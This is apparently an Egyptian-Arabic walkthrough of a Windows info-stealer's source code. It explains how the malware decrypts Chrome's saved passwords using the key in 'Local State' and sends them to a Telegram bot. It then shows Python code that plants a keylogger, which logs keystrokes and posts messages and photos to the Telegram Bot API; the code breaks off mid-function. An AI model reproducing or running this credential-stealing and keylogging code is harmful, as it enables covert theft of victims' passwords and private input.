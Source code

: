 - **زي إيه بالظبط؟**:
  - الدالة دي زي واحد بيروح المكتبة (ملف `Login Data`)، بياخد كتاب فيه كل الأسرار (الباسوردات المشفرة)، بيستخدم مفتاح سحري (`encryption_key`) عشان يقرا الأسرار، وبيبعت الكتاب كله لحد على تيليجرام.

- **ليه خطير؟**:
  - الدالة دي هي اللي بتجمع كل الباسوردات وتبعتها. يعني لو عندك 50 باسورد محفوظ في كروم، هيروحوا كلهم في رسالة واحدة للشخص اللي على تيليجرام.

---

### الخلاصة: إزاي بيشتغل مع بعض؟
1. **جيب المفتاح**:
   - الكود بيروح لملف `Local State`، ياخد المفتاح المشفر، يفكّه باستخدام ويندوز، ويطلّع مفتاح التشفير.
2. **افتح قاعدة البيانات**:
   - بيروح لملف `Login Data`، ينسخه، يفتحه، ويطلّع كل المواقع، الإيميلات، والباسوردات المشفرة.
3. **فك الباسوردات**:
   - بياخد كل باسورد مشفر، يستخدم المفتاح عشان يفكّه، سواء بطريقة قديمة (DPAPI) أو جديدة (AES-GCM).
4. **ابعت كل حاجة**:
   - بيحط كل البيانات في رسالة مرتبة (موقع، إيميل، باسورد) وبيبعتها لتيليجرام.

---

### ليه الكود ناجح في فك التشفير؟
- **لأن ويندوز بيساعده**: المفتاح مشفر بناءً على حساب المستخدم بتاعك، فالكود لو شغال بنفس الحساب، بيقدر يستخدم ويندوز عشان يفكّه.
- **لأن كروم بيحفظ المفتاح في مكان معروف**: ملف `Local State` مش مخفي كويس، فالكود بيلاقيه بسهولة.
- **لأنه بيستخدم مكتبات قوية**: زي `win32crypt` و`Crypto.Cipher` اللي بتعرف تفك أي تشفير لو عندها المفتاح.

---

#### 3. **زرع الكيلوجر (تسجيل الكيبورد)**
```python
keylogger_script = (
    'import keyboard\n'
    'import time\n'
    'import requests\n'
    'import cv2\n'
    'import os\n'
    'import tempfile\n\n'
    f'TELEGRAM_BOT_TOKEN = "{TELEGRAM_BOT_TOKEN}"\n'
    f'TELEGRAM_CHAT_ID = "{TELEGRAM_CHAT_ID}"\n'
    f'DEVICE_NAME = "{device_name}"\n'
    'logged_keys = ""\n'
    'LOG_FILE = os.path.join(tempfile.gettempdir(), "keylog.txt")\n\n'
    'def log_to_file(message):\n'
    '    with open(LOG_FILE, "a", encoding="utf-8") as f:\n'
    '        f.write(f"[{time.ctime()}] {message}\\n")\n\n'
    'def send_to_telegram(message):\n'
    '    url = "https://api.telegram.org/bot" + TELEGRAM_BOT_TOKEN + "/sendMessage"\n'
    '    data = {"chat_id": TELEGRAM_CHAT_ID, "text": message}\n'
    '    try:\n'
    '        response = requests.post(url, data=data)\n'
    '        if response.status_code == 200:\n'
    '            log_to_file(f"تم إرسال الرسالة: {message}")\n'
    '        else:\n'
    '            log_to_file(f"فشل الإرسال: HTTP {response.status_code}")\n'
    '    except Exception as e:\n'
    '        log_to_file(f"خطأ في الإرسال: {str(e)}")\n\n'
    'def send_photo_to_telegram(img_path):\n'
    '    try:\n'
    '        with open(img_path, "rb") as f:\n'
    '            url = "https://api.telegram.org/bot" + TELEGRAM_BOT_TOKEN + "/sendPhoto"\n'
```